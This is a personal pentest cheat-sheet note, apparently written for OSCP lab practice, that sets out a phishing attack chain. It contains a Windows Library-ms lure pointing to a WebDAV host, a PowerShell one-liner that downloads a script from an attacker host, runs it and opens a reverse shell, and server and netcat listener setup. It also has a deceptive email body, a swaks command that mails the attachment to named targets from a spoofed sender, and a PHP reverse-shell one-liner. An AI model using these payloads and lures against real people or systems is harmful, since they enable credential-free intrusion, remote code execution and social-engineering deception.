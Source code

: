 <% tp.file.rename("1_phishing")%>


## Creating the Payloads
- config.Library-ms
  This opens our 1st stage dropper like it was a local folder
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://HIP</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- Payload that belongs into the Library, e.g. an .lnk file
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<HIP>:8000/Invoke-PowershellTcp.ps1'); Invoke-PowershellTcp -Reverse -IPAddress <HIP> -Port 4444"
```

- 1st Stage dropper (shell 1)
Hosting the webdav directory, containing our payload
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/oscp/lab/webdav/
```

- Create a copy of the library and use that to transfer those two files to kali

## Setup C2

- 2nd Stage dropper (shell 2)
```bash
cd /home/kali/Documents/shells/ && python3 -m http.server 8000
```
> Unstaged msf rev_tcp exe did not work in ATP
> 
- Receive reverse shell (shell 3)
`nc -nvlp 4444`

## Send Phish
- Example contents for body.txt
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

- Shell 4
```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server $mailServerIP --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```


## Universal

<table>
<tr>
<td> Status </td> <td> Response </td>
</tr>
<tr>
<td> PHP </td>
<td>

```bash
php -r '$sock=fsockopen("<hip>",<hport>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

</td>
</tr>
</table>


| Inline code | Code block                 |
|-------------|----------------------------|
| <pre><code>`a = 1`</code></pre>   | <pre><code>a = 1</code><br><code>b = 
2</code></pre> |

